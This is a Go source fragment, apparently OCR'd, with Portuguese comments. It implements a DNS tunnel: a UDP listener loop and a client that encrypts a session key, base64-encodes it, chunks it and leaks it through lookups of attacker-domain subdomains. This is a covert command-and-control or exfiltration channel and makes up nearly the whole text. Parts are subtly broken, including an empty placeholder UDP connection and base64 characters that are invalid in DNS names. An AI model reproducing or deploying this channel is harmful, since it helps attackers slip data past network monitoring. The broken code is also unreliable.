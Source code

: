     // Configurar servidor DNS para interceptar consultas ao domínio especificado
    dns := &net.UDPConn{} // Simplificado; na implementação real, configure um servidor DNS real
    
    // Loop principal para processar consultas
    buffer := make([]byte, 1024)
    for {
        n, addr, err := dns.ReadFromUDP(buffer)
        if err != nil {
            fmt.Printf("Erro ao ler pacote UDP: %v\n", err)
            continue
        }
        
        // Processar pacote DNS
        go dt.processDNSPacket(buffer[:n], addr)
    }
}

func (dt *DNSTunnelComm) startClient() error {
    fmt.Printf("Iniciando cliente de túnel DNS para %s...\n", dt.domain)
    
    // Primeira etapa: Estabelecer conexão e troca de chaves
    encSessionKey, err := rsa.EncryptOAEP(
        sha256.New(),
        rand.Reader,
        dt.publicKey,
        dt.sessionKey,
        nil,
    )
    if err != nil {
        return fmt.Errorf("falha ao criptografar chave de sessão: %v", err)
    }
    
    // Codificar a chave para transmissão DNS
    encodedKey := base64.StdEncoding.EncodeToString(encSessionKey)
    
    // Dividir em chunks para consultas DNS
    chunks := splitIntoChunks(encodedKey, 40) // 40 caracteres por consulta
    
    // Enviar chave de sessão via consultas DNS
    for i, chunk := range chunks {
        subdomain := fmt.Sprintf("init-%d-%s.%s", i, chunk, dt.domain)
        
        // Simular consulta DNS
        _, err := net.LookupIP(subdomain)
        if err != nil {
            // Ignorar erros - esperamos que falhe, mas o servidor capturará
            continue
        }
    }
    
    // Enviar marca de fim
    endSubdomain := fmt.Sprintf("init-end.%s", dt.domain)
    _, _ = net.LookupIP(endSubdomain)
    
    dt.connectionAlive = true
    